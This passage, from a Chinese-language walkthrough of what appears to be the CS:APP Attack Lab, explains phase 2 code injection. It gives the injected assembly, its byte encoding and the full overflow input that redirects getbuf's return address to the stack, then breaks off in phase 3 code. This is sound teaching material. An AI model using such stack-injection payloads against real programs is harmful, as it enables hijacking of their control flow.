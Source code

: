 &emsp;&emsp;由C函数可知，我们需要传入参数`val`，并且该参数与`cookie`相等。为此，我们植入以下代码（`insert.s`）：

```assembly
push $0x4017ec         
mov $0x59b997fa,%rdi   # the first argument equals to cookie
ret                    # return
```

> 由于`ret`会弹出栈中的值并跳转到该地址，所以首先将`touch2`的地址`push`到栈中，这样`ret`后就会执行`touch2`了。

&emsp;&emsp;为了能够顺利执行植入代码，我们**把植入代码放在栈底（`%rsp`所在地址），然后将`getbuf`原有的返回地址覆盖为`%rsp`地址即可**。

&emsp;&emsp;为获取`%rsp`地址，可以用如下的gdb指令，在进入`Gets`函数的位置设置断点：

![](image.png)

&emsp;&emsp;这样，我们在对我们的植入代码进行反汇编操作后：

```bash
gcc -c inject.s
objdump -d inject.o
```

&emsp;&emsp;即可将得到的结果：

```txt
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3
```

&emsp;&emsp;加入栈中。最终输入的字符串如下：

```txt
68 ec 17 40 00 48 c7 c7 # (%rsp)
fa 97 b9 59 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 # (%rbp)
```

> 将`%rsp`的地址放入栈帧的位置也是利用了`ret`的特性，`getbuf`在最后`ret`时可以把栈中剩下的这个地址弹出来，把程序的控制权交给它。

#### &emsp;&emsp;$c.$Phase 3

&emsp;&emsp;阶段三需要植入的函数如下：

```C
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval))
```